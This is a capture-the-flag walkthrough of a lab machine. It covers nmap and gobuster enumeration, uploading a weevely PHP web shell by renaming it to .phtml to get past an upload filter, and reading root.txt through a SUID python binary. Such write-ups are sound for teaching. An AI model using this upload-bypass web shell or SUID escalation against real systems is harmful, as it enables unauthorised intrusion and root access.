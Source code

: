 # Root Me
## Enumeration
``` 
nmap -sV -sS -A -o nmap.out {your ip}
In Nmap I found:
Port 80 Is Running Apache Server
Port 22 Is Running SSH
```
```
# Nmap 7.80 scan initiated Sun May  9 21:44:56 2021 as: nmap -sV -sS -A -o nmap.out 10.10.85.5
Nmap scan report for 10.10.85.5
Host is up (0.22s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Adtran 424RG FTTH gateway (92%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%), Linux 3.1 - 3.2 (92%), Linux 3.2 - 4.9 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 5 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 5900/tcp)
HOP RTT       ADDRESS
1   58.49 ms  10.17.0.1
2   ... 4
5   198.58 ms 10.10.85.5

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun May  9 21:46:45 2021 -- 1 IP address (1 host up) scanned in 110.05 seconds
```
# website Lookup
```
Nothing In Website
So i started gobuster
gobuster -u {your ip} -w /usr/share/dirb/wordlists/common.txt
```
![Alt](https://raw.githubusercontent.com/pmk456/root_me_ctf/main/images/buster.png)
```
Found /panel and /uploads
In Panel We Have Access To Upload Files.
```
![Alt](https://raw.githubusercontent.com/pmk456/root_me_ctf/main/images/panel.png)
```
I Fired Up Terminal And Immediately Installed weevely
About Weevely:
Weevely Is A PHP reverse shell listener and creator 
command = weevely generate {your pass} shell.php 
 shell.php 
Lets Upload It Now.
```
![Alt](https://raw.githubusercontent.com/pmk456/root_me_ctf/main/images/php-not-allow.png)
#### I Transalated It Using Google Transalate
![Alt(https://raw.githubusercontent.com/pmk456/root_me_ctf/main/images/transalate.png)
#### Php Is Not Allowed
#### Lets See Hint Which FILE UPLOAD BYPASS
#### I googled It And Got This
### So i Renamed From .php to .phtml
![Alt](uplaod.png)
### Now It Is Uploaded
![Alt](https://raw.githubusercontent.com/pmk456/root_me_ctf/main/images/success.png)
```
I Remember I Also Found A Hidden Directory Named /uploads In Gobuster Lets Visit it Now
```
### Thats All We Need Lets Open It shell.phtml
![Alt](https://raw.githubusercontent.com/pmk456/root_me_ctf/main/images/uploads.png)

### Now I Fired Terminal And Typed
```
weevely http://{your-ip}/uploads/shell.phtml 5142
```
## Boom I Got A Reverse Shell
![Alt](https://raw.githubusercontent.com/pmk456/root_me_ctf/main/images/rev-shell.png)
### Lets CD To user.txt
```
user.txt was present inside /var/www/
```
![Alt](https://raw.githubusercontent.com/pmk456/root_me_ctf/main/images/user.png)
# Privilage Escalation
### We Got Nothing using sudo -l
### So I Started Search For Files with SUID Permission
```
find / -user root -perm /4000
```
### /usr/bin/python is Too Suspicious
![Alt](https://raw.githubusercontent.com/pmk456/root_me_ctf/main/images/python-weird.png)
### I Know A Trick Here To Get Root.txt 
```
python -c 'print(open("/root/root.txt").read())'
```
## Boom Escalation In Less Than 30 Seconds
![Alt](https://raw.githubusercontent.com/pmk456/root_me_ctf/main/images/priv.png)
# Machine Hacked By Patan Musthakheem Khan
##### github.com/pmk456
